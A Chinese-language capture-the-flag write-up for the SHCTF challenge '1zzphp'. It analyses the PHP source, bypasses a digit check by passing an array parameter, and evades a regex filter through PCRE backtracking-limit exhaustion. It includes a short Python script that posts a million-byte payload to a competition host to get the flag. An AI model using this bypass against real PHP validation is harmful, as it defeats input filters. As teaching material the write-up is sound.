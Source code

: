 ```yaml
---
layout: mypost
title: "[SHCTF]1zzphp"
categories: [ctf_wp]
---
```


（对于这个题里面的正则回溯绕过还是有不懂的话，可以去看看我的这篇文章--晕晕晕，正则回溯？！晕晕晕，以及之前发的那篇文章--CTF 中那些奇奇怪怪的正则表达式）

![](006APoFYly8gvggsk336ig6050050x0c02.gif)

1.这个题目也是没有很多形象的东西，很直接的给了一个源码，这个还是很好审的，接下来带大家一起康康

![](image-20231101183632489.png)

```
<?php
error_reporting(0);
highlight_file('./index.txt');
if(isset($_POST['c_ode']) && isset($_GET['num']))
{
    $code = (String)$_POST['c_ode'];
    $num=$_GET['num'];
    if(preg_match("/[0-9]/", $num))
    {
        die("no number!");
    }
    elseif(intval($num))
    {
      if(preg_match('/.+?SHCTF/is', $code))
      {
        die('no touch!');
      }
      if(stripos($code,'2023SHCTF') === FALSE)
      {
        die('what do you want');
      }
      echo $flag;
    }
}
```

一起分析这个源码，首先还是高亮这个 index.txt，然后分别用 post 和 get 方法去接受两个参数，第一层过滤是一个正则匹配（这个一看就很好绕），然后有一个 intval 的函数（这个函数也是 CTF 里面的老熟人了），来简单解释一下这个函数是干什么的

```
intval — 获取变量的整数值
具体一点的话是下面这个
int intval( var,base)
//var指要转换成 integer 的数量值,base指转化所使用的进制
Note:
如果 base 是 0，通过检测 var 的格式来决定使用的进制：
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，
◦ 将使用 10 进制 (decimal)
```

然后就又是一个正则了，这个正则首先一看就是一个非贪婪匹配（这个就理解成它会在原地等什么时候才能匹配到 s，但是前面有一个.代表一个任意字符），具体抽象出来的意思就是只能以 shctf 前面不放东西，其实它就匹配不到，但是紧接着看后面这个 stripos 函数（这个函数也是经常被出成 CTF 的题目），这里也解释一下吧

```
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）
```

意思就是必须得完完全全的匹配到这个'2023SHCTF'字符串，显然这个和上面这个正则是有冲突的，欧克源码就先说到这里

2.首先啊，咱们一步一步来，先看绕前面这两个，我们要满足`$num`里面没有数字（preg_match 检测不出来），同时满足`intval($num)`为 1（true），这个直接采用数组就行，这就很常见的绕过了

```
preg_math()传入数组参数会直接返回0，同时intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值， intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1故此传入?num[]=1,产生错误返回1

所以就是?num[]=1
```

3.先给大家看个小视频吧，仔细观察，看完再继续看文章下面的内容

4.然后这个第二部分，要是之前没接触过这个正则回溯相关的知识的话，肯定是很难想到的，关于正则匹配的话我也写过一篇文章，文章的最后也给大家展示了 p 神发现的这个东西的应用，从网页到数据库，只要有用到正则匹配，且满足利用条件的，基本上就是通杀，所以近期也专门写了一篇关于正则回溯的 1 文章--晕晕晕，正则回溯？！晕晕晕，基本上就是贪婪匹配的话会一个一个回溯，而懒惰的话就是很容易出现这个问题，这个专业的叫法是 PCRE 回溯次数限制绕过，先给大家看下 payload 吧！

```
import requests
from io import BytesIO

url = "http://112.6.51.212:32998/"

session = requests.Session()

headers = {
    'User-Agent': 'Windows10 / Chrome 75.0.3770.142Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36'
}

data = b'b' * 1000000 + b'2023SHCTF'
bytes_io = BytesIO(data)

params = {'num[]': 1}
post_data = {'c_ode': bytes_io}

response = session.request('POST', url, params=params, data=post_data, headers=headers)

print("md给我flag:")
print(response.content)
```

这个就是用 python 模拟发包的过程，然后超过 100 万次的匹配，那么正则就会崩溃，返回 Flase，而这里也没有做一个强等于判断 0 是否等于 Flase，所以就轻松绕过了，大家看不懂的话，先去看看那两篇文章，很简单的！！！

![](image-20231101210117548-1024x270.png)

Finish!!!